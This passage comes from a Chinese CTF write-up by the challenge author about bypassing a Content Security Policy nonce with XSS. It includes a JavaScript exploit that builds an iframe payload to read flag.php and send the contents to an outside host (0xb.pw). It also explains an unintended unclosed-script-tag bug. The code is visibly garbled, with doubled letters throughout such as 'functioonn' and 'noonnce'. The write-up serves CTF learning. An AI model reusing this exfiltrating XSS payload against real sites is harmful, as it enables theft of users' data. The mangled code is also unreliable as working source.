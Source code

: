 ```
  functioonn pollNoonnce() {
    var noonnce = getNoonnce();

    if (noonnce == "") {
      setTimeout(pollNoonnce, 1000);
    } else {
      attack(noonnce);
    }
  }

  functioonn attack(noonnce) {
    var iframe = document.createElement("iframe");
    var url = "http://127.0.0.1/xsstest_new/adminshigesha233e3333/#"
    var payload = "<scriscriptpt noonnce='" + noonnce + "'>var xmlhttp = new XMLHttpRequest(); xmlhttp.open(\"GET\", \"flag.php\", false); xmlhttp.send(); var mess = xmlhttp.respoonnse; var xhr = new XMLHttpRequest(); locatioonn.href=\"http://0xb.pw?\"+mess;</scr" + "ipt>";
    var validPayload = "<scrscriptipt>alert('If you see this alert, CSP is not active')</scr" + "ipt>"
    iframe.src = url + payload + validPayload;
    document.body.appendChild(iframe);
  }

  setTimeout("document.getElementById('frame').coonntentWindow.document.forms[0].submit();", 3000);

</sscriptcript>


```

![image_1be4e5g8q1pjk12714191vtp18ta13.png-15kB][6]


但事实上，题目有个非常有趣的非预期漏洞。

如果你注意观察admin目录的index.php页面

![image_1bednb31n145c1shfa8cj41p7p9.png-29.5kB][7]

xss点和script标签在同一行，所以就有了一个新的问题，如果我们构造一个`<script>`标签，然后没有闭合，就可以吃掉后面的标签，把后面script标签的属性保留

![image_1bednf0jr1t3oh4f1pqoqmm5cnm.png-47.5kB][8]

最后贴下virink的wp

[https://pwnhub.cn/media/writeup/119/45db4b4d-53dc-47de-afe8-e821bd070dfa_7032e508.pdf](https://pwnhub.cn/media/writeup/119/45db4b4d-53dc-47de-afe8-e821bd070dfa_7032e508.pdf)


这次的非预期问题实在抱歉，下次出题一定仔细思考下漏洞的流程和问题，还是太菜了Orz





  [1]: http://static.zybuluo.com/LoRexxar/x456wiqarhtd85ufb6r67ulz/image_1be4da9901l902161muj1khor429.png
  [2]: http://static.zybuluo.com/LoRexxar/wffm5weehycndc8b9k2x0972/image_1bd65493j1oof1doj1ok152diqkm.png
  [3]: http://static.zybuluo.com/LoRexxar/0ta8ypvabn74fhcalpxb6gvt/image_1bd6582u5641h5c1g006k6r2f13.png
  [4]: http://static.zybuluo.com/LoRexxar/qvp6z81nzd85lx1l29kscv9p/image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png
  [5]: http://static.zybuluo.com/LoRexxar/zcafmqme8aujaxnmti8jsp4j/image_1be4dlo64vi3vtl1ee8hu31g8gm.png
  [6]: http://static.zybuluo.com/LoRexxar/80aqq62w7f7a2i21vqely76s/image_1be4e5g8q1pjk12714191vtp18ta13.png
  [7]: http://static.zybuluo.com/LoRexxar/xfrth6zizzzkdywwp25nm1kk/image_1bednb31n145c1shfa8cj41p7p9.png
  [8]: http://static.zybuluo.com/LoRexxar/6xp2ciyd1oavbswajjusl31z/image_1bednf0jr1t3oh4f1pqoqmm5cnm.png